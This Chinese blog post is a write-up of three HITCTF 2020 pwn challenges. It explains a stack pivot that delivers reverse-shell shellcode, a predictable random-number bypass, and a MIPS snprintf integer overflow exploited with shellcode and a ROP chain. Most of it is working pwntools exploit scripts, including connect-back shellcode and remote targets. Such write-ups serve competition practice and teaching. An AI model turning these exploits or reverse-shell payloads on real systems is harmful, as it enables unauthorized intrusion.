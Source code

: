 ```yaml
---
title: HITCTF 2020 三道 Pwn
date: 2020-12-09 00:00:02
categories:
- CTF/Pwn
tags: HITCTF mips
---
```


> 比较简单的Pwn，其中的MIPS Pwn是人生中拿到的第一个Pwn的一血，全是4哥的功劳。

总共五道题，做出来三道，题目全在这了：[pwn.zip](https://xuanxuanblingbling.github.io/assets/attachment/hitctf/pwn.zip)

## dagongren1

媳妇博客：[hitctf2020之dagognren1](https://blingblingxuanxuan.github.io/hitctf2020-dagongren1.html)

- 漏洞：main函数scanf栈溢出
- 利用：栈迁移+shellcode反弹shell

> shellcode: [http://shell-storm.org/shellcode/files/shellcode-857.php](http://shell-storm.org/shellcode/files/shellcode-857.php)

```python
from pwn import *
context(arch="amd64",os='linux')
#myelf = ELF("./dagongren1")
#io = process(myelf.path)
io = remote("81.70.209.171",51601)

shellcode  = "\x48\x31\xc0\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x4d\x31\xc0\x6a"
shellcode += "\x02\x5f\x6a\x01\x5e\x6a\x06\x5a\x6a\x29\x58\x0f\x05\x49\x89\xc0"
shellcode += "\x48\x31\xf6\x4d\x31\xd2\x41\x52\xc6\x04\x24\x02\x66\xc7\x44\x24"
shellcode += "\x02\x7a\x69\xc7\x44\x24\x04\x95\x81\x23\x3d\x48\x89\xe6\x6a\x10"
shellcode += "\x5a\x41\x50\x5f\x6a\x2a\x58\x0f\x05\x48\x31\xf6\x6a\x03\x5e\x48"
shellcode += "\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x48\x31\xff\x57\x57\x5e\x5a"
shellcode += "\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xef\x08\x57\x54"
shellcode += "\x5f\x6a\x3b\x58\x0f\x05"

io.recv()
#gdb.attach(io,"b * 0x400736")
io.sendline('a'*32+p64(0x600e40)+p64(0x4006fc))
sleep(1)
io.sendline('a'*32+p64(0x0)+p64(0x600e50)+shellcode)
io.interactive()
```

参考其他wp：

- [HITCTF_WP_pwn4_5](https://c0yo7e.github.io/2020/12/12/HITCTFF-WP-pwn4n4-5/)
- [emocat/writeups: HITCTF-2020](https://github.com/emocat/writeups/tree/master/2020/HITCTF-2020)

发现因为只关闭了标准输出和标准错误，所以还可以使用将输出重定向到标准输入来绕过。不过使用这种方法在pwntools中用process启动就会给EOF，用socat可以成功：

```python
➜  socat tcp-l:1111,reuseaddr,fork exec:"./dagongren1"
```

```python
from pwn import *
context(arch="amd64",os='linux',log_level='debug')
io = remote("10.10.10.139",1111)
io.recv()
io.sendline('a'*32+p64(0x600e40)+p64(0x4006fc));sleep(0.1)
io.sendline('a'*32+p64(0x0)+p64(0x600e50)+asm(shellcraft.sh()))
io.sendline("exec /bin/sh 1>&0")
#io.sendline("cat /flag>&0")
io.interactive()
```

还可以使用pwntools中的 [shellcraft.cat(filename, fd=0)](http://docs.pwntools.com/en/stable/shellcraft/amd64.html?highlight=shellcraft#pwnlib.shellcraft.amd64.linux.cat)，指定fd为0即可：

```python
from pwn import *
context(arch="amd64",os='linux',log_level='debug')
io = remote("10.10.10.139",1111)
io.recv()
io.sendline('a'*32+p64(0x600e40)+p64(0x4006fc));sleep(0.1)
io.sendline('a'*32+p64(0x0)+p64(0x600e50)+asm(shellcraft.cat("/flag",0)))
io.interactive()
```

## lucky

- 漏洞：可预测的随机数
- 利用：本地预测随机数

```python
from pwn import *
from ctypes import *
context.log_level = "debug"
 
libc = cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc.so.6')
libc.srand(libc.time(0)/0xA+1)
myelf = ELF("./lucky")
#io = process(myelf.path)
io = remote("81.70.209.171",51700)
io.recv()
io.sendline("xuan")
for i in range(100):
    io.recv()
    io.sendline(str(libc.rand()))
io.interactive()
```

## supercgi

> 参考：[emocat/writeups: HITCTF-2020](https://github.com/emocat/writeups/tree/master/2020/HITCTF-2020)

程序属性：`mipsel32:static`，保护全关。功能是一个以标准输入输出为接口的Web服务器，所以可以使用socat这种工具将其绑定到一个端口上然后使用浏览器进行访问。路径解析处过滤了`..`后直接读文件了，中间没有什么多余的操作，所以目录穿越这种Web洞是没有了，还是关注内存问题。

- 漏洞：`detect_robot`函数中，处理多个`User-Agent`字段可导致计算长度的整数溢出，进而可以触发栈溢出
- 利用：恶意数据会存在全局变量中，地址已知，故return 2 shellcode

### 漏洞分析

漏洞函数如下：

```c
char v5[260]; // [sp+20h] [+20h] BYREF
v3 = 255;
v4 = 0;
do
{
if ( !fgets(buf, 1024, stdin) || !strcoll(buf, "\n") || !strcoll(buf, "\r\n") )
    break;
v0 = strlen(UA);
if ( !strncmp(buf, UA, v0) )
{
    v1 = strlen(UA);
    v4 = snprintf(&v5[v4], v3, "%s", &buf[v1 + 1]);
    v3 -= v4;
}
}
while ( v3 );
```

这个循环是每次读输入的一行，问题重点在snprintf上：

> man手册：[https://man7.org/linux/man-pages/man3/snprintf.3.html](https://man7.org/linux/man-pages/man3/snprintf.3.html)

```
int snprintf(char *str, size_t size, const char *format, ...);

RETURN VALUE         top
       Upon successful return, these functions return the number of
       characters printed (excluding the null byte used to end output to
       strings).

       The functions snprintf() and vsnprintf() do not write more than
       size bytes (including the terminating null byte ('\0')).  If the
       output was truncated due to this limit, then the return value is
       the number of characters (excluding the terminating null byte)
       which would have been written to the final string if enough space
       had been available.  Thus, a return value of size or more means
       that the output was truncated.  (See also below under NOTES.)

       If an output error is encountered, a negative value is returned.
```

- 首先snprintf的第二个参数类型是`size_t`，这个再往后找定义是无符号数。
- 其次snprintf的返回值是想要写入的字符串长度，而不是成功长度，故可能出现返回值大于size的情景

所以这题如果上来就给一个长度大于0xff的UA，v3一回合就变负数，下一回合就会被当成无符号数去做输入的size，就可以溢出了。即使输入的UA的长度小于0xff，因为v3是每回合都减小，所以多个回合后一样能把v3减成负数，然后溢出。

### 漏洞利用

mips的shellcode可由msf生成：

```bash
➜  msfvenom -p linux/mipsle/exec  CMD=/bin/sh  --arch mipsle --platform linux -f py -o shellcode.py
```

当然也可以使用网上其他的，如 [http://shell-storm.org/shellcode/files/shellcode-79.php](http://shell-storm.org/shellcode/files/shellcode-79.php)，最终exp如下：

```python
from pwn import *
context(arch='mips',os='linux',endian='little',log_level='debug')

myelf = ELF("./SuperCgi")
io = process(["qemu-mipsel",myelf.path])
#io = process(["qemu-mipsel","-g","1234",myelf.path])

shellcode  = b"\x66\x06\x06\x24\xff\xff\xd0\x04\xff\xff\x06\x28\xe0"
shellcode += b"\xff\xbd\x27\x01\x10\xe4\x27\x1f\xf0\x84\x24\xe8\xff"
shellcode += b"\xa4\xaf\xec\xff\xa0\xaf\xe8\xff\xa5\x27\xab\x0f\x02"
shellcode += b"\x24\x0c\x01\x01\x01\x2f\x62\x69\x6e\x2f\x73\x68\x00"

payload = '''GET /index.html HTTP/1.1
User-Agent: %s
User-Agent: %s
'''% ('a'*0xff,'a'*0xc+p32(0x412e6c)+shellcode)

io.sendline(payload)
io.interactive()
```

gdb调试脚本如下：

```c
➜  cat gdb.cmd 
file SuperCgi
set architecture mips
set endian little
b * 0x00400640
target remote :1234
➜  gdb-multiarch -x ./gdb.cmd
```

比赛时这个洞是瞎发包测出来的，循环那块当时没太看明白，因为溢出点是snprintf，所以payload也会00截断，开始做的非常麻烦，一个是用ROP，因为可以多次溢出，所以先溢出长的，然后溢出短的，就可以绕过00。并且利用思路也麻烦，用的ROP调用程序函数打印flag，本地成功，远程失败，本地挂socat失败，原因不详，后来询问出题人，发现预期解是执行了`cat flag`，果断用shellcode。这个麻烦的方法如下（偏移全是调出来的）：

```python
from pwn import *
myelf = ELF("./SuperCgi")
io = process(["qemu-mipsel",myelf.path])

ra = 0x0040075C # jal  catfile
s0 = 0x00412f1b # str /flag offset
pc = 0x004078F8 # move $a0, $s0; jr  $ra

payload =  "GET /index.html HTTP/1.1"
payload += "\nUser-Agent: "+('a'*167)
payload += "\nUser-Agent: "+('b'*152)   
payload += "\nUser-Agent: "+('c'*187+ p32(ra)+'/flag\x00') 
payload += "\nUser-Agent: "+('d'*78 + p32(pc))           
payload += "\nUser-Agent: "+('e'*179+ p32(s0))            
payload += "\n"

io.sendline(payload)
io.interactive()
```